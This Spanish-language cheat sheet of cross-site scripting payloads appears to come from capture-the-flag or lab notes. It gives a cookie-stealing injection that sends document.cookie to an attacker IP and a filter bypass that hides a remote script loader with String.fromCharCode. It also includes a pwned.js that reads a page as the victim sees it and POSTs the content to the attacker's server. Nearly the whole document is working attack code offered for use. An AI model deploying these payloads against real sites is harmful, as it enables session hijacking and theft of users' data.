 # XSS

## Inyección básica

```
<img src="asd><script>document.location("http://10.10.16.6/?cookie=' + document.cookie + '</script>">
```

## Técnicas de bypass

## Uso de String.fromCharacter()

### Creación de secuencia de caracteres

```
Python 3.10.9 (main, Dec  7 2022, 13:47:07) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> cadena = """document.write('<script src="http://10.10.16.6/pwned.js"></script>');"""
>>> for character in cadena:
...     print(ord(character))
```

### Nuevo payload

```
<img src="asd><script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,54,46,54,47,112,119,110,101,100,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59));</script>">
```

## Ejemplo de `pwned.js` (Dumpeo del contenido tal y como lo ve el otro usuario)

```
var peticion = new XMLHttpRequest();
peticion.open('GET', 'http://localhost:8000/vac/8dd841ff-3f44-4f2b-9324-9a833e2c6b65', false);
peticion.send();

var respuesta = peticion.responseText;

var peticion2 = new XMLHttpRequest();
peticion2.open('POST', 'http://10.10.16.6:81/codigofuente', true);
peticion2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');

var respuestacoded = encodeURIComponent(respuesta);
peticion2.send(respuestacoded);
```